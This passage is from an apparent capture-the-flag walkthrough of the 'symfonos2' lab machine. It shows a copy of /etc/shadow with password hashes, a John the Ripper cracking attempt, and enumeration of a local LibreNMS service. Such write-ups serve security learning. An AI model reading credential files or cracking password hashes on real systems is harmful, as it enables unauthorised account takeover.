 ```
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
```

Getting shadow.bak from backups:

```
aeolus@symfonos2:/var$ cd backups/

aeolus@symfonos2:/var/backups$ cat shadow.bak 
root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
[SNIP]
aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
mysql:!:18095:0:99999:7:::
Debian-snmp:!:18095:0:99999:7:::
librenms:!:18095::::::
```

Tried to crack the passwords for the users cronus and root, was unsuccessful:

```
crazyeights@es-base:~$ john --wordlist=lists/rockyou.txt --rules sym2_pass 
```

Noticed this line:

```
librenms:!:18095::::::
```

*   librenms is a netwoork monitoring system - there might be another webservice running
*   Searched for librenms files:

```
aeolus@symfonos2:~$ find / -name "*librenms*" 2>/dev/null
/var/lib/apache2/site/enabled_by_admin/librenms
/var/lib/mysql/librenms
/opt/librenms
/etc/logrotate.d/librenms
/etc/apache2/sites-available/librenms.conf
/etc/apache2/sites-enabled/librenms.conf
```

Didn't have permissions to access most of them, found this file:

```
aeolus@symfonos2:~$ cat /etc/apache2/sites-available/librenms.conf 
<VirtualHost 127.0.0.1:8080>
  DocumentRoot /opt/librenms/html/
  ServerName  localhost

  AllowEncodedSlashes NoDecode
  <Directory "/opt/librenms/html/">
    Require all granted
    AllowOverride All
    Options FollowSymLinks MultiViews
  </Directory>
</VirtualHost>
```
